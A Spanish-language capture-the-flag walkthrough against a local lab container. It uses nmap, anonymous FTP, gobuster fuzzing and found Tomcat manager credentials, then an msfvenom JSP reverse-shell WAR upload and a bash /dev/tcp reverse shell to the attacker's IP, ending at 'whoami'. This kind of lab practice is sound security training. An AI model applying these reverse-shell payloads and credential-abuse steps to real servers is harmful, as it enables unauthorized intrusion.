 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh pn.tar
```

![Pasted image 20250203124154](https://github.com/user-attachments/assets/f32f1d2a-e40f-44b6-b889-2434e42be7ad)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250203124223](https://github.com/user-attachments/assets/8c3cb5c7-4e6b-4998-857a-5729baf00285)

Nos conectamos con **FTP**:

```Bash
ftp 172.17.0.2
```

![Pasted image 20250203124312](https://github.com/user-attachments/assets/b8d10d6a-15c0-45c7-b62b-bb9bde4a1112)

```Bash
anonymous
```

![Pasted image 20250203124328](https://github.com/user-attachments/assets/be680898-fa3e-429a-b8d0-22ec8882f75a)

```Bash
'blank'
```

![Pasted image 20250203124340](https://github.com/user-attachments/assets/81a316e2-ead6-4031-95ca-442b847ac53c)

```Bash
ls
```

![Pasted image 20250203124409](https://github.com/user-attachments/assets/ce0410ba-fa06-4ce1-ad67-1946ec5212e8)

```Bash
get tomcat.txt
```

![Pasted image 20250203124434](https://github.com/user-attachments/assets/696dfa87-4d5e-4e73-af05-f31228f2f0fb)

```Bash
cat tomcat.txt
```

![Pasted image 20250203124645](https://github.com/user-attachments/assets/9a4ec282-9cc0-40c3-89ea-bc5414d1b3a6)

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2:8080/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250204152455](https://github.com/user-attachments/assets/7d0a5dd7-bab6-49c2-88d4-b42ac2165f4c)

Nos metemos en la web:

![Pasted image 20250203124745](https://github.com/user-attachments/assets/3ed026d3-58c6-4fb2-9801-444da5ed8c9c)

![Pasted image 20250203125031](https://github.com/user-attachments/assets/9388b209-3297-4ec1-b3eb-5329b85307e3)

![Pasted image 20250203124932](https://github.com/user-attachments/assets/4a152111-a50a-42e9-a0f9-91c331d94839)

tomcat: s3cr3t

![Pasted image 20250203125055](https://github.com/user-attachments/assets/5bf1a57e-aa54-4543-b5c8-dd2056df97ae)

![Pasted image 20250204144739](https://github.com/user-attachments/assets/c7713403-b77b-4e53-99bf-7010398d0307)

Creamos payload para subir:

```Bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f war -o shell.war
```

![Pasted image 20250204151401](https://github.com/user-attachments/assets/731816e2-89b6-45ca-a005-b12a1138b795)

Lo subimos:

![Pasted image 20250204150907](https://github.com/user-attachments/assets/45f27aab-d0db-4308-82a2-bb8cf49de008)

![Pasted image 20250204150933](https://github.com/user-attachments/assets/57956470-886c-448d-aaff-5c4b3f842a68)

Nos ponemos a la escucha con **netcat**:

```Bash
nc -lnvp 4444
```

![Pasted image 20250204151015](https://github.com/user-attachments/assets/24087044-f325-4716-85e6-ea8d82643cd5)

Nos ponemos otra:

```Bash
nc -lnvp 443
```

![Pasted image 20250204152406](https://github.com/user-attachments/assets/8de11f60-d6b7-452a-9425-651397d68344)

Pinchamos en la shell subida:

![Pasted image 20250204152912](https://github.com/user-attachments/assets/08f2e758-239b-41af-9a87-7a6bd9f98ff7)

Miramos en la shell:

![Pasted image 20250204152129](https://github.com/user-attachments/assets/6173c399-0d14-4637-9533-9abf96df7922)

Nos la mandamos a la otra shell:

```Bash
bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"
```

![Pasted image 20250204152103](https://github.com/user-attachments/assets/9add970b-536e-4442-90db-cff3817a268e)

Miramos la otra shell:

![Pasted image 20250204152256](https://github.com/user-attachments/assets/81fe720e-8444-4571-b6fd-38923dcce12d)

```Bash
whoami
```

![Pasted image 20250204152315](https://github.com/user-attachments/assets/ce078cdb-c1b3-49e2-ad00-22f9acd61f10)
